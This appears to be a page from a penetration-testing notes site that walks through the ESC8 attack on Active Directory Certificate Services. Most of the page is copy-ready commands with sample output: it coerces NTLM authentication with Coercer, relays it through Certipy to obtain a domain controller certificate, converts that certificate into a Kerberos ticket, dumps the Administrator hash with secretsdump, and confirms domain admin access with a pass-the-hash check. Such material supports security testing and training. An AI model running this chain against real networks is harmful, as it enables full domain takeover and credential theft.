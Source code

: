 ```yaml
---
title : "ESC8"
# pre : ' '
description : "ESC8 - Abuse Active Directory Certificate Services."
date : 2023-12-03T06:03:37+01:00
# hidden : true
# draft : true
weight : 0
# tags : ['']
---
```


## ESC8 - Abuse Active Directory Certificate Services

## Requirements

- [Coercer]({{< ref "coercer" >}})
- [Certipy]({{< ref "certipy" >}})
- [Impacket]({{< ref "impacket" >}})
  - `secretsdump.py`
- [PKINITtools]({{< ref "pkinittools" >}})
  - `gettgtpkinit.py`
- [NetExec - optional]({{< ref "netexec" >}})

## Examples

### ESC8 from a 'random' server

**Note:** Start Certipy in relay mode before triggering authentication with Coercer.

#### Use Coercer.py to Trigger Authentication on a non-Domain Controller

- `-t` is the target server to trigger the authentication on
- `-l` is the listening host that is going to relay

```plain
$ sudo ./Coercer.py coerce -t 10.10.10.10 -u esc8-user@offsec.nl -l 10.10.10.11
Password:
[info] Starting coerce mode
[info] Scanning target 10.10.10.10
[*] DCERPC portmapper discovered ports: 49664,49665,49666,49667,49668,49669,49702,49710,49747
[+] SMB named pipe '\PIPE\eventlog' is accessible!
   [+] Successful bind to interface (82273fdc-e32a-18c3-3f78-827929dc23ea, 0.0)!
      [!] (NO_AUTH_RECEIVED) MS-EVEN──>ElfrOpenBELW(BackupFileName='\??\UNC\10.10.10.11\E4UAA0b\aa') 
Continue (C) | Skip this function (S) | Stop exploitation (X) ? c
[+] SMB named pipe '\PIPE\lsarpc' is accessible!
   [+] Successful bind to interface (c681d488-d850-11d0-8c52-00c04fd90f7e, 1.0)!
      [+] (ERROR_BAD_NETPATH) MS-EFSR──>EfsRpcAddUsersToFile(FileName='\\10.10.10.11\OrF5Mwc2w\file.txt\x00') 
```

#### Certipy in Relay Mode

```plain
$ sudo certipy relay -target 'http://CA01.offsec.nl' -ca 'CA01.offsec.nl'
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Targeting http://CA01.offsec.nl/certsrv/certfnsh.asp (ESC8)
[*] Listening on 0.0.0.0:445
OFFSEC\MGMT_SRV$
[*] Requesting certificate for 'OFFSEC\\MGMT_SRV$' based on the template 'Machine'
[*] Got certificate with DNS Host Name 'MGMT_SRV.offsec.nl'
[*] Certificate object SID is 'S-1-5-21-1234567890-123456789-09876543-56789'
[*] Saved certificate and private key to 'MGMT_SRV.pfx'
[*] Exiting...
```

### ESC8 from a Domain Controller

#### Use Coercer.py to Trigger Authentication on a Domain Controller

- `-t` is the target server to trigger the authentication on
- `-l` is the listening host that is going to relay

```plain
$ sudo ./Coercer.py coerce -t 10.10.10.10 -u esc8-user@offsec.nl -l 10.10.10.11
Password:
[info] Starting coerce mode
[info] Scanning target 10.10.10.10
[*] DCERPC portmapper discovered ports: 49664,49665,49666,49667,49668,49669,49702,49710,49747
[+] SMB named pipe '\PIPE\eventlog' is accessible!
   [+] Successful bind to interface (82273fdc-e32a-18c3-3f78-827929dc23ea, 0.0)!
      [!] (NO_AUTH_RECEIVED) MS-EVEN──>ElfrOpenBELW(BackupFileName='\??\UNC\10.10.10.11\E4UAA0b\aa') 
Continue (C) | Skip this function (S) | Stop exploitation (X) ? c
[+] SMB named pipe '\PIPE\lsarpc' is accessible!
   [+] Successful bind to interface (c681d488-d850-11d0-8c52-00c04fd90f7e, 1.0)!
      [+] (ERROR_BAD_NETPATH) MS-EFSR──>EfsRpcAddUsersToFile(FileName='\\10.10.10.11\OrF5Mwc2w\file.txt\x00') 
```

#### Certipy in Relay Mode to Certificate Authority

```plain
$ sudo certipy relay -target 'http://CA01.offsec.nl' -ca 'CA01.offsec.nl' -template DomainController 
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Targeting http://CA01.offsec.nl/certsrv/certfnsh.asp (ESC8)
[*] Listening on 0.0.0.0:445
OFFSEC\DC01$
[*] Requesting certificate for 'OFFSEC\\DC01$' based on the template 'DomainController'
[*] Got certificate with DNS Host Name 'DC01.offsec.nl'
[*] Certificate object SID is 'S-1-5-21-1234567890-123456789-09876543-56789'
[*] Saved certificate and private key to 'DC01.pfx'
[*] Exiting...
```

#### Get TGT from Certificate

```plain
$ python3 gettgtpkinit.py -cert-pfx ~/DC01.pfx "offsec.nl/DC01$" "DC01.ccache" -dc-ip 10.10.10.25
2023-12-08 16:18:33,939 minikerberos INFO     Loading certificate and key from file
INFO:minikerberos:Loading certificate and key from file
2023-12-08 04:20:13,042 minikerberos INFO     Requesting TGT'
INFO:minikerberos:Requesting TGT
2023-12-08 04:20:13,052 minikerberos INFO     AS-REP encryption key (you might need this later):
INFO:minikerberos:AS-REP encryption key (you might need this later):
2023-12-08 04:20:13,053 minikerberos INFO     12345678911
INFO:minikerberos:12345678911
2023-12-08 04:20:13,056 minikerberos INFO     Saved TGT to file
```

#### Secretsdump.py Extract Domain Administrator Hash

```plain
$ secretsdump.py -k 'offsec.nl/DC01$@DC01.offsec.nl' -debug -just-dc-user administrator -dc-ip 10.10.10.25
Impacket v0.10.0 - Copyright 2022 Fortra
Password:
[+] Using Kerberos Cache: DC01.ccache
[+] SPN CIFS/DC01.offsec.nl@offsec.nl not found in cache
[+] AnySPN is True, looking for another suitable SPN
[+] Returning cached credential for KRBTGT/offsec.nl@offsec.nl
[+] Using TGT from cache
[+] Trying to connect to KDC at 10.10.10.25
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
[+] Trying to connect to KDC at 10.10.10.25
[+] Calling DRSCrackNames for administrator 
[+] Calling DRSGetNCChanges for {} 
[+] Entering NTDSHashes.__decryptHash
[+] Decrypting hash for user: CN=Administrator,CN=Users,DC=OFFSEC,DC=local
offsec.nl\Administrator:500:aad3b435b51404eeaad3b435b51404ee:97f2592347d8fbe42be381726ff9ea83:::
[...]
[*] Cleaning up... 
```

#### NetExec Check Privileges

```plain
$ nxc smb 10.10.10.25 -u administrator -H :97f2592347d8fbe42be381726ff9ea83             
SMB         10.10.10.25  445    DC01             [*] Windows 10.0 Build 20348 x64 (name:DC01) (domain:offsec.nl) (signing:True) (SMBv1:False)
SMB         10.10.10.25  445    DC01             [+] offsec.nl\administrator:97f2592347d8fbe42be381726ff9ea83 (Pwn3d!)
```

## URL list

- [Crowe.com - Exploiting AD CS: A quick look at ESC1 and ESC8](https://www.crowe.com/cybersecurity-watch/exploiting-ad-cs-a-quick-look-at-esc1-esc8)

